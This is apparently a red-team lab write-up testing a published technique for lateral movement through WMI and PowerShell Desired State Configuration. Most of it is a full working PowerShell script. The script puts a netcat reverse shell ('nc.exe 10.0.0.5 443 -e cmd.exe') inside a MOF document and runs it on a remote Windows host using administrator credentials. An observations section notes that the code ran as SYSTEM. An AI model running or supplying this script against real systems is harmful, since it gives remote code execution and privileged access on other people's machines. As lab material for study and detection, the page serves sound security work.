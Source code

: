 ```yaml
---
description: Lateral Movment, Privilege Escalation
---
```


# WMI + PowerShell Desired State Configuration Lateral Movement

This lab is simply a test of the lateral movement technique desrcibed by Matt Graeber [here](https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06).

## Execution

Below is the powershell script that allows an attacker to execute code on a remote machine via WMI. Note that the payload is defined in the variable `TestScript` on line 7. In our case, the payload is a rudimentary nc reverse shell (luckily, we know the victim has nc on their machine :):

{% code title="dsc.ps1" %}
```csharp
# Credits to Matt Graeber. Code taken from https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06
$MOFContents = @'
instance of MSFT_ScriptResource as $MSFT_ScriptResource1ref
{
	ResourceID = "[Script]ScriptExample";
	GetScript = "\"$(Get-Date): I am being GET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	TestScript = "C:\\tools\\nc.exe 10.0.0.5 443 -e cmd.exe";
	SetScript = "\"$(Get-Date): I am being SET\" 	| Out-File C:\\Windows\\Temp\\ScriptRun.txt -Append; return $True";
	SourceInfo = "::3::5::Script";
	ModuleName = "PsDesiredStateConfiguration";
	ModuleVersion = "1.0";
	ConfigurationName = "ScriptTest";
};

instance of OMI_ConfigurationDocument
{
	Version="2.0.0";
	MinimumCompatibleVersion = "1.0.0";
	CompatibleVersionAdditionalProperties= {"Omi_BaseResource:ConfigurationName"};
	Author="TestUser";
	GenerationDate="02/26/2018 07:09:21";
	GenerationHost="TestHost";
	Name="ScriptTest";
};
'@

# Change this to false if you want to test the payload locally
$ExecuteRemotely = $True

$NormalizedMOFContents = [Text.Encoding]::UTF8.GetString([Text.Encoding]::ASCII.GetBytes($MOFContents))
$NormalizedMOFBytes = [Text.Encoding]::UTF8.GetBytes($NormalizedMOFContents)
$TotalSize = [BitConverter]::GetBytes($NormalizedMOFContents.Length + 4)

if ($ExecuteRemotely) {
	# Prepend the length of the payload
	[Byte[]] $MOFBytes = $TotalSize + $NormalizedMOFBytes
} else {
	# If executing locally, you do not prepend the payload length
	[Byte[]] $MOFBytes = $NormalizedMOFBytes
}


# Specify the credentials of your target
$Credential = Get-Credential -Credential "offense\administrator"
$ComputerName = 'ws02'

# Establish a remote WMI session with the target system
$RemoteCIMSession = New-CimSession -ComputerName $ComputerName -Credential $Credential

$LCMClass = Get-CimClass -Namespace root/Microsoft/Windows/DesiredStateConfiguration -ClassName MSFT_DSCLocalConfigurationManager -CimSession $RemoteCIMSession

if ($LCMClass -and $LCMClass.CimClassMethods['ResourceTest']) {
	# You may now proceed with lateral movement

	$MethodArgs = @{
    	ModuleName   	= 'PSDesiredStateConfiguration'
    	ResourceType 	= 'MSFT_ScriptResource'
    	resourceProperty = $MOFBytes
	}

	$Arguments = @{
    	Namespace  = 'root/Microsoft/Windows/DesiredStateConfiguration'
    	ClassName  = 'MSFT_DSCLocalConfigurationManager'
    	MethodName = 'ResourceTest'
    	Arguments  = $MethodArgs
    	CimSession = $RemoteCIMSession
	}

	# Invoke the DSC script resource Test method
	# Successful execution will be indicated by "InDesiredState" returning True and ReturnValue returning 0.
	Invoke-CimMethod @Arguments

} else {
	Write-Warning 'The DSC lateral movement method is not available on the remote system.'
}
```
{% endcode %}

The technique is captured in action in a gif below. On the left is the attacking system, on the right is the victim system and the window above the victim screen is another attacking system that is receiving the reverse shell:

![](<../../.gitbook/assets/Peek 2018-11-01 21-48.gif>)

## Observations

Note the process ancestry and that our code was run with privileges of`NT AUTHORITY\SYSTEM`:

![](<../../.gitbook/assets/Screenshot from 2018-11-01 22-00-51.png>)

## References

{% embed url="https://posts.specterops.io/abusing-powershell-desired-state-configuration-for-lateral-movement-ca42ddbe6f06" %}

